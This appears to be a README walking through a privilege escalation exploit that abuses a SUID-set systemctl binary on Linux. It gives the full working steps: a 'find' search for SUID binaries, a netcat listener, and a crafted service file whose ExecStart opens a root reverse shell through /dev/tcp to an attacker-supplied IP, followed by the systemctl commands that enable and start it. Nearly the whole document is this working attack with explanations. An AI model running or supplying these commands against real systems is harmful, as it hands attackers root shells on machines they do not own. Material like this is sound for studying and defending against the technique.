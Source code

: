 # Expected conditions for **systemctl** exploit:
1. Having access to shell with non-root user.
2. Having netcat listener running locally on a random port:
<a name="netcat-section"></a>
```
nc -lvp 9999
```
1. **systemctl** command has SUID bit set.
   1. To check commands with SUID bit:
      ```
      find / -user root -perm -4000 -exec ls -ldb {} \;
      ```
      * **find** - search for
      * **/** - start search from root directory
      * **-user root** - condition saying that user must be root
      * **-perm 4000** - condition saying that file should have SUID bit set
      * **-exec** - execute command on each file that meets conditions
        * **ls -ldb** - execute **ls** command with attributes
        * **{}** - output placeholder
        * **\;** - the end of the -exec command

## Usage
1. Paste the below echo command in the remote shell:
```shell
echo "
[Unit]
Description=access root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'

[Install]
WantedBy=multi-user.target" >> /tmp/test.service
```
* Above echo saves **test.service** service into temporary file.
* **[Unit]** header that contains Description attribute of the service. Description can by anything.
* **[Service]** header contains **Type** attribute equal to **Simple** which tells service manager that service starts immediately after the main service process has been forked off. **ExecStart** attribute describes what command are executed when the service is started:
  ```
  /bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'
  ```
  * **/bin/bash -c ''**: run command with bash
  * **bash -i**: starts bash in interactive mode
  * **>&**: redirect standard output and error
  * **/dev/tcp/<ip-address>/9999**: into special device file that allows to create TCP socket with your IP address under specific port number [(used previously in netcat listener)](#netcat-section)
  * **0>&1**: redirect standard input (0 file descriptor) where the standard input (1 file descriptor) is redirected - which is TCP socket

2. Enable service:
```sh
systemctl enable /tmp/test.service
```
3. Start service:
```sh
systemctl start test
```

